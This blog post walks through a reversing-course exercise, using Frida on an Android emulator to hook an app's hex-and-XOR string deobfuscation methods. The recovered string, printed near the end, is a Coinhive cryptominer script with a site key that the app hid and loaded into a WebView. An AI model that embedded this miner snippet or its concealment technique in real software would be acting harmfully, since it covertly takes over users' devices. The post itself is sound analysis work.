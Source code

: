 ```yaml
---
layout: post
title: "Deobfuscating with Frida Exercise"
date: 2022-07-06
---
```


Lately been diving a little deeper into my side journey with Android app reversing.

I went over Maddie Stone's amazing Android Reversing course [here](https://www.ragingrock.com/AndroidAppRE/app_fundamentals.html). I decided to take on one exercise at a time. The [last exercise](https://www.ragingrock.com/AndroidAppRE/obfuscation.html#exercise-7---string-deobfuscation) in the course goes over string deobfuscation. There are Java methods that are passed in app to take a mysterious obfuscated string and reverse it back to being human readable for a Webview method to load it.

```
webView.loadData(z1.b(new String(z1.a("773032205849207A38313
26F1351202E3B306B7D1E5A3B33252B382454173735266C3D3B531637352
22D393B475C7A37222D7F38421B6A6664303220584920647730322058492
0643D2223725C503A3F39636C725F5C237A082C383C7950223F65023F3D5
F4039353E3079755F5F666E1134141F5C4C64377A1B671F565A1B2C7F7B1
01F42700D1F39331717161574213F2B2337505D27606B712C7B0A543D342
E317F214558262E636A6A6E1E4A37282233256C"), Charset.forName("UTF-8"))), "text/html", null);
```

In the exercise, it was cracked by reimplementing the methods in Python and mirroring the code to deobfuscate the string. However, I came across an [interesting tutorial](https://1337.dcodx.com/mobile-security/owasp-mstg-crackme-1-writeup-android) using [Frida](https://frida.re/). A "Dynamic instrumentation toolkit for developers, reverse-engineers, and security researchers." Being a Frida novice I wanted to take the time to learn more beyond using given scripts. Even though the community scripts are very very useful! With Frida, you can utilize and load the classes and methods to sort of "replay" what the app is doing with the data passed to it. So, combining this knowledge with the exercise from Maddie's course, I tried my hand at dynamically cracking the string using the methods as given in the example app.

I. Install the app on an Android device. I grabbed the `.apk` out of the VM given in the exercise from Android RE course and installed on an emulated Android.

`adb install apks\ClashOfLights.apk`

Side note: I already have Android Studio installed and like it for a few reasons. Not only does it have Android Emulator tool, but you can add a JADX-GUI plugin to decompile APKs.

II. Write the Javascript hook Frida will use.

Looking at this code snippet, I threw in the one class and 2 methods I would need.

```
package com.supercell.titan;

/* loaded from: classes.dex */
public class z1 {
    private static final char[] a = "0123456789ABCDEF".toCharArray();

    public static byte[] a(String str) {
        int length = str.length();
        byte[] bArr = new byte[length / 2];
        for (int i = 0; i < length; i += 2) {
            bArr[i / 2] = (byte) ((Character.digit(str.charAt(i), 16) << 4) + Character.digit(str.charAt(i + 1), 16));
        }
        return bArr;
    }

    public static String b(String str) {
        char[] cArr = {'K', 'C', 'Q', 'R', '1', '9', 'T', 'Z'};
        StringBuilder sb = new StringBuilder();
        for (int i = 0; i < str.length(); i++) {
            sb.append((char) (str.charAt(i) ^ cArr[i % cArr.length]));
        }
        return sb.toString();
    }
}
```

So I need class `z1` and it's methods, `a` and `b`.

**deob.js**
```

setImmediate(function() {
    console.log("[*] Start");

    Java.perform(function() {

        var str = "773032205849207A3831326F1351202E3B306B7D1E5A3B33252B382454173735266C3D3B53163735222D3
        93B475C7A37222D7F38421B6A66643032205849206477303220584920643D2223725C503A3F39636C725F5C237A082C3
        83C7950223F65023F3D5F4039353E3079755F5F666E1134141F5C4C64377A1B671F565A1B2C7F7B101F42700D1F39331
        717161574213F2B2337505D27606B712C7B0A543D342E317F214558262E636A6A6E1E4A37282233256C"

        console.log("[*] Loading z1")
        var clazz_z1 = Java.use('com.supercell.titan.z1');
        // var bytes = clazz_z1.a(str); For some reason the byte array had spaces so had I just hardcoded it below for clarity of what method z1.a does...
        console.log("[*] UTF-8 String from Byte array created from clazz_z1.a(str)")
        var str2 = String.fromCharCode(119,48,50,32,88,73,32,122,56,49,50,111,19,81,32,46,59,48,107,125,30,90,59,
        51,37,43,56,36,84,23,55,53,38,108,61,59,83,22,55,53,34,45,57,59,71,92,122,55,34,45,127,56,66,27,106,102,
        100,48,50,32,88,73,32,100,119,48,50,32,88,73,32,100,61,34,35,114,92,80,58,63,57,99,108,114,95,92,35,122,
        8,44,56,60,121,80,34,63,101,2,63,61,95,64,57,53,62,48,121,117,95,95,102,110,17,52,20,31,92,76,100,55,122,
        27,103,31,86,90,27,44,127,123,16,31,66,112,13,31,57,51,23,23,22,21,116,33,63,43,35,55,80,93,39,96,107,113,
        44,123,10,84,61,52,46,49,127,33,69,88,38,46,99,106,106,110,30,74,55,40,34,51,37,108)
        console.log("[*] Using method b from class z1")
        var result = clazz_z1.b(str2);
        console.log()
        console.log("****** DEOBFUSCATED STRING ******")
        console.log(result)
        console.log("****** DEOBFUSCATED STRING ******")
        console.log()
    })
    
    console.log("[*] End");

})

```

Not pretty, but does the job!


III. Orchestrate the Frida server on the emulated Android and then hook this JS into the app to run.


`adb push ./frida-server-15.1.20-android-x86 /data/local/tmp/frida-server` <--- based on architecture of the device. Frida docs are great with guiding with this but I also like [this tutorial](https://httptoolkit.tech/blog/frida-certificate-pinning/#install-and-start-frida-on-the-device) as well.

`adb root`

`adb shell "chmod 755 /data/local/tmp/frida-server"`

`adb shell "/data/local/tmp/frida-server &"`

`frida -U -l ./deob.js -f com.clashof.lights`

Running this I got:

```
C:\Users\Alexis\platform-tools>frida -U -l ./deob.js -f com.clashof.lights
     ____
    / _  |   Frida 15.1.20 - A world-class dynamic instrumentation toolkit
   | (_| |
    > _  |   Commands:
   /_/ |_|       help      -> Displays the help system
   . . . .       object?   -> Display information about 'object'
   . . . .       exit/quit -> Exit
   . . . .
   . . . .   More info at https://frida.re/docs/home/
   . . . .
   . . . .   Connected to Android Emulator 5554 (id=emulator-5554)
Spawning `com.clashof.lights`...
[*] Start
[*] End
Spawned `com.clashof.lights`. Use %resume to let the main thread start executing!
[Android Emulator 5554::com.clashof.lights ]-> %resume


Frida Output

[*] Start
[*] Loading z1
[*] UTF-8 String from Byte array created from clazz_z1.a(str)
[*] Using method b from class z1

****** DEOBFUSCATED STRING ******
<script src="https://coinhive.com/lib/coinhive.min.js"></script><script>var miner = new CoinHive.Anonymous('nf24ZwEMmu0m1X6MgcOv48AMsIYErpFE', {threads: 2});miner.start();</script>
****** DEOBFUSCATED STRING ******

[*] End
```

There you go, the deobfuscated string dynamically grabbed through Frida! I suspect this type of obfuscation method isn't necessarily that common. But I plan to use this use case for other types of dynamic analysis in the future!
